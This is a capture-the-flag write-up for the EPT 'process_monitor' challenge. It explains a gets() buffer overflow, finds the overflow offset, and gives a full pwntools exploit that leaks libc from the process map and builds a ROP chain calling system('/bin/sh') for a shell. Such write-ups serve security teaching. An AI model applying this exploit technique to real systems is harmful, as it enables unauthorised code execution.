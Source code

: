 Author: nordbo
Flag: `EPT{overfl0w_in_th3_m0n1t0r}`

## Solve

The binary gives us 3 options. 
```sh
$ nc io.ept.gg 30001

Menu:
1. List all running processes
2. Get details for a given process
3. Exit
Enter your choice:
```


By listing all running processes we get this
```sh
Enter your choice: 1
USER       PID   COMMAND
ept        1     /bin/sh
ept        7     ./ynetd
ept        206   sh
ept        207   ./process_monitor
```

And by listing details for the `./process_monitor` process we get this
![[img1.png]]
This is the entire virtual memory map of the process, and we can use this info to call functions in libc.

#### Reversing the binary
The `show_process_detail` function is vulnerable to a buffer overflow because of the use of `gets`
```c
void show_process_detail(void)

{
  int iVar1;
  char *pcVar2;
  char local_322 [10];
  char local_318 [512];
  char local_118 [256];
  FILE *local_18;
  uint local_c;
  
  printf("Enter the PID of the process: ");
  gets(local_322);
  local_c = atoi(local_322);
  snprintf(local_118,0x100,"/proc/%d/status",(ulong)local_c);
  local_18 = fopen(local_118,"r");
  if (local_18 == (FILE *)0x0) {
    perror("Could not fetch details");
  }
[...]
```


#### Finding offsett
By sending in a long enough pattern we get a segfault:
![[img2.png]]

Then we find the offsett in pwndbg:
![[img3.png]]
```sh
$ pwn cyclic -l 0x6163696161626961
802
```


#### Parsing libc
The next step was to parse the libc leak into the pwntools script. This took way to much time for me, and the function I created was pretty bad. I basically just called `io.recvline` until i got to the correct line where the libc base was located. I created one for local and one for remote. 
```python
def leaklibc():
    io.recvuntil(b"Enter your choice: ")
    io.sendline(b"1")

    if args.LOCAL:
        processes = b""
        for i in range(98):
            processes += io.recvline()
        find = re.findall(b"\n.*process_monitor.*\n", processes)[0]
        pid = find[len("\nkali       "):len("\nkali       ")+5]
        io.recvuntil(b"Enter your choice: ")
        io.sendline(b"2")
        io.recvuntil(b"Enter the PID of the process: ")
        io.sendline(pid)
        for i in range(16):
            io.recvline()
        
        return int(io.recvline()[:len("7fef1fb60000")], 16)

    else:
        processes = b""
        processes = io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()
        processes += io.recvline()

        
        pid = processes.split(b"\n")[4][len("ept        "):len("ept        ")+4]
        io.recvuntil(b"Enter your choice: ")
        io.sendline(b"2")
        io.recvuntil(b"Enter the PID of the process: ")
        io.sendline(pid)
        for i in range(16):
            io.recvline()
        return int(io.recvline()[:len("7fef1fb60000")], 16)
```


#### ROP-chain
From there on the solve was pretty standard. I created a ROP-chain with `pop rdi;ret`  `/bin/sh` `ret` and `system`
```python
libc = ELF("/home/kali/ctf/libc-database/db/libc6_2.35-0ubuntu3.4_amd64.so")
rop = ROP(libc)
io = start()

libcaddr = leaklibc()
log.info("Libc leak: " + hex(libcaddr))

libc.address = libcaddr
io.recvuntil(b"Enter your choice: ")
io.sendline(b"2")
io.recvuntil(b"Enter the PID of the process: ")

payload = b"A"*802
payload += p64(libcaddr + rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libcaddr + rop.find_gadget(['ret'])[0])
payload += p64(libc.sym.system)
io.sendline(payload)

io.interactive()
```

By running this we get a shell!
![[img4.png]]


